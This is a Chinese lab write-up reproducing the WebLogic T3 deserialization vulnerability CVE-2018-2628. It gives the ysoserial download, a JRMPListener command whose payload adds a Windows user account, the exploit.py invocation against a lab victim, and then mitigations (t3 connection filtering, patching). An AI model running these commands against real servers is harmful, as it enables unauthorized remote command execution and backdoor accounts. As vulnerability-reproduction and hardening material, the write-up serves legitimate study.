



## Weblogic WLS Core Components 反序列化命令执行漏洞（CVE-2018-2628）
Weblogic Server WLS Core Components反序列化命令执行漏洞（CVE-2018-2628），该漏洞通过t3协议触发，可导致未授权的用户在远程服务器执行任意命令。

使用[exploit.py](https://www.exploit-db.com/exploits/44553)脚本进行复现,具体使用方法见脚本。

Kail  Attack ：192.168.31.232
Win03 victim : 192.168.124.130

Kail 执行
1）下载ysoserial.jar
`wget https://github.com/brianwrf/ysoserial/releases/download/0.0.6-pri-beta/ysoserial-0.0.6-SNAPSHOT-BETA-all.jar`

2）使用ysoserial.jar，启动JRMP Server
`java -cp ysoserial-0.0.6-SNAPSHOT-BETA-all.jar ysoserial.exploit.JRMPListener [listen port] CommonsCollections1 [command]`
其中，[command]是想执行的命令，而[listen port]是JRMP Server监听的端口。、
这里我执行`java -cp ysoserial-0.0.6-SNAPSHOT-BETA-all.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections1 'net user xiaohao xiaohao /add'`

3）执行exploit.py
`python2 exploit.py [victim ip] [victim port] [path to ysoserial] [JRMPListener ip] [JRMPListener port] [JRMPClient]`
其中，[victim ip]和[victim port]是目标weblogic的IP和端口，[path to ysoserial]是本地（Kail系统上的）ysoserial的路径，[JRMPListener ip]和[JRMPListener port]第一步中启动JRMP Server的IP地址和端口。[JRMPClient]是执行JRMPClient的类，可选的值是JRMPClient或JRMPClient2
这里我执行`python2 exploit.py 192.168.124.130 7001 ysoserial-0.0.6-SNAPSHOT-BETA-all.jar 192.168.31.232 1099 JRMPClient2`

结果如下：

### 修复建议
1.过滤t3协议。
在域结构中点击 安全->筛选器
连接筛选器填: weblogic.security.net.ConnectionFilterImpl 保存后重启Weblogic.

kail再次攻击，Exp将报错。

连接筛选器规则可参考[官方文档](https://docs.oracle.com/cd/E12839_01/web.1111/e13711/con_filtr.htm#SCPRG386)

2.安装补丁，但是保不准下一次Weblogic缝缝补补的黑名单又被绕过。